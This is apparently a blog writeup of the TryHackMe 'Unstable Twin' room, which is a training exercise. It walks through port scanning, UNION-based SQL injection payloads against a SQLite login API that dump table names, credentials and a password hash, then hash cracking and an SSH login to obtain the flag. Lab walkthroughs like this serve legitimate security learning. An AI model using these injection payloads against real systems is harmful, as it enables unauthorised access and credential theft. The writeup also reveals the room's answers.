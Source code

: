 ```yaml
---
layout: post
title:  "Tryhackme - Unstable Twin"
date:   2021-05-20 17:06:25
categories: Pentesting
---
```


Prompt:https://tryhackme.com/room/unstabletwin

# Solution

Starting with the usual Nmap scan, we discover that only 2 ports are open.

```py
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1

```
On running the gobuster scan we get 2 directories /api (with status 404) and /info (with status 200) which tells us that the login API needs to be called with username and password on visiting /info .

To get the build version we send a request to /info 

```py
curl -i -s http://10.10.196.16/info
```
However it returned 1.3.6-final (which did not turn out to be the correct answer),so I thought it is some machine error and so I sent the request again and (much to my bewilderment) got a different build version.

```
1.3.4-dev
```
After this I sent a request to the login API with an arbitrary username and password as directed in /info and got the result that the credentials are incorrect

```py
curl -XPOST 'http://10.10.196.16/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
```
The box has an SQLi tag so i decided to try exploiting it in that direction and tried to list our the table names in the sqlite_master database. 
Basically sqlite_master is the master listing of all database objects in the database and the SQL used to create each object. 
The sqlite_master contains the following columns:

```
The sqlite_master table contains the following columns:

Column      Description
type	      The type of database object such as table, index, trigger or view.
name	      The name of the database object.
tbl_name	      The table name that the database object is associated with.
rootpage	      Root page.
sql	            SQL used to create the database object.

```
So I basically have to display the information stored in tbl_name column.
Here's my request:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' -- -&password=admin"



[
  [
    1, 
    "users,sqlite_sequence,notes"
  ]
]

```
Now sqlite_sequence is one of the default tables present in SQL ,so it is not probably not important right now.
So I list out the data in the **users** table :

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1' UNION SELECT username,password from users -- -&password=admin"


[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

```

But Mary Anns' password is not listed here so i proceed to similarly list the information in the **notes** table:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,notes from notes -- - -- -&password=admin"



[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422
    cf984324f645b84427343f4\n"
  ]
]

```
Seems like a hash,right? So I proceed to crack the hash online using [Crackstation](https://crackstation.net/) and get the SSH password.

```
Experiment
```
After this I log in via SSH and retieve the User Flag.

***User Flag : THM{Mary_Ann_notes}***
